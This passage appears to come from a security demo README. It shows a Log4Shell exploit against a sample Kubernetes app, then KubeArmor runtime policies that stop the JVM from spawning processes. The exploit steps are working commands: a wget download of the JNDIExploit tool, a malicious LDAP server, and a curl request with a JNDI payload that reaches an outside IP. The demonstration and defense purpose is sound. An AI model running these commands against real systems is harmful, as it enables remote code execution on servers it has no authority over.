 **Step #2:** Downloading malicious LDAP server
```sh
wget https://log4j-knox.s3.amazonaws.com/JNDIExploit-1.2-SNAPSHOT.jar
```

**Step #3:** Starting LDAP Server for incoming traffic on your PC or Cloud VM
```sh
java -jar JNDIExploit-1.2-SNAPSHOT.jar -i [<your-private-ip>] -p 8888
```
> Private IP can be queried using `hostname -I`.<br> Make sure your firewall allows traffic for ports `1389` and `8888`

**Step #4:** Exploiting using `cURL` command
```sh
# curl <protocol://victim-ip:port> -H 'X-Api-Version: ${jndi:ldap://<malicious-server-ip>:1389/Basic/Command/Base64/dG91Y2ggL3RtcC9wd25lZAo=}'
curl http://35.241.165.36 -H 'X-Api-Version: ${jndi:ldap://34.135.86.213:1389/Basic/Command/Base64/dG91Y2ggL3RtcC9wd25lZAo=}'
```
> Here, 1st IP used is our k8s external IP (Step #1) where the vulnerable sample app is running.<br> 2nd IP used is the external IP of the malicious LDAP server (Step #2)

**Step #5:** Confirmation via checking creation of file `/tmp/pwned`
```
kubectl exec -it --namespace default log4j-demo-5d7c84d8b9-vs8ck -- watch -n 2 ls /tmp
```
> Replace `log4j-demo-5d7c84d8b9-vs8ck` with your pod from output of Step #1.<br> You should be able to see a file created as `pwned` inside `/tmp` directory.

## Possible Solutions

### KubeArmor Security Policy

[KubeArmor](https://github.com/kubearmor/kubearmor) is a Runtime Security
Platform that can help Security/DevSecOps teams to protect their workloads
using application/systems based controls (such as limiting Process Spawning,
limiting File System access, limiting pods capabilities etc). KubeArmor has a
visibility mode using which the application/security team can enable visibility
thereby figuring out what is happening inside the pods i.e., what processes are
spawned, what file acesses are attempted etc. The biggest advantage about
KubeArmor is that as a user you can also submit policies that can
prevent/block/deny such systems operations.

Typically an attacker infiltrates with the intent to either exfiltrate the
internal data or for cryptomining or to simply wreck havoc in the internal apps
with the intent to make it unavailable. In all these cases, the attacker needs
to execute an arbitrary program that can fulfill its malicious intent. Log4j
vulnerability allows the attacker to place a binary within the internal
network. However, guardrails can be placed so as not to allow the JVM to spawn
processes.

#### Not allowing any execs from the JVM/Java
Following is a KubeArmor that can deny/prevent any processes from been forked
in the pod as a child process of Java application.
